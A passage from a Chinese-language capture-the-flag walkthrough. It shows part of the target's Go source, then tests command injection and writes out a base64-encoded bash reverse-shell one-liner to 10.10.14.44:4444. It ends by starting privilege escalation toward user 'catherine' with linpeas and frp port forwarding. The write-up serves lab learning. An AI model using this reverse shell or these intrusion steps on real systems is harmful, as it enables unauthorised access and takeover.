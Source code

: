 ```go
	})
}

func main() {
	resetTicker := time.NewTicker(5 * time.Second)
	done := make(chan bool)

	go func() {
		for {
			select {
			case <-done:
				return
			case <-resetTicker.C:
				// Reset Pets to prestaged ones
				Pets = []Pet{
					{Name: "Cookie", Species: "cat", Characteristics: loadCharacter("cat")},
					{Name: "Mia", Species: "cat", Characteristics: loadCharacter("cat")},
					{Name: "Chuck", Species: "dog", Characteristics: loadCharacter("dog")},
					{Name: "Balu", Species: "dog", Characteristics: loadCharacter("dog")},
					{Name: "Georg", Species: "gopher", Characteristics: loadCharacter("gopher")},
					{Name: "Gustav", Species: "giraffe", Characteristics: loadCharacter("giraffe")},
					{Name: "Rudi", Species: "redkite", Characteristics: loadCharacter("redkite")},
					{Name: "Bruno", Species: "bluewhale", Characteristics: loadCharacter("bluewhale")},
				}

			}
		}
	}()

	handleRequest()

	time.Sleep(500 * time.Millisecond)
	resetTicker.Stop()
	done <- true
}

```
为了检测我们的代码可以成功运行，我们可以先使用ping命令检测是否能ping通我们本地的机器，抓包工具选择tcpdump较为方便
![在这里插入图片描述](https://img-blog.csdnimg.cn/6e33b2b67b2f4a719b747c1cd9ac9c6e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/7c8fd2469cb14d8d9e75f60d9188bfca.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
返回的结果是成功执行了命令，那么我们可以将我们的恶意代码进行base64编码，目的是为了确保命令执行时不会出现渲染问题。payload的设置是：先将编码的字符串进行解码，解码之后传给管道符以bash命令运行

```bash
echo -n 'bash -i >& /dev/tcp/10.10.14.44/4444 0>&1' | base64
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ccb0abeb9681491f9ac925d4249f715a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ba6d6ecae5746bba902f3b7f0b88eb6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
反弹shell到本地机器上
![在这里插入图片描述](https://img-blog.csdnimg.cn/22566d53b80f46d79d780b9871c10674.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权到catherine
拿到shell后，发现我们并没有权限查看user.txt文件的权限，并且home目录下存在另一个账户`catherine`。初步判断应该是要提权到这个用户权限上。我们使用万能提权脚本`linpeas.sh`上传到目标机器上运行，发现目标机器上以root权限运行着一个docker代理程序，并且运行的端口为8086
![在这里插入图片描述](https://img-blog.csdnimg.cn/7af7e79e6cb54a40b1dc0c7b52e9be19.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为目标机器的8086端口对外网不开放，所以我们必须使用内网穿透工具，利用端口转发技术将8086端口转发到我们的VPS机器上进行访问，所使用的工具是frp。我们先上传客户端到目标机器上，并在本机上运行服务端
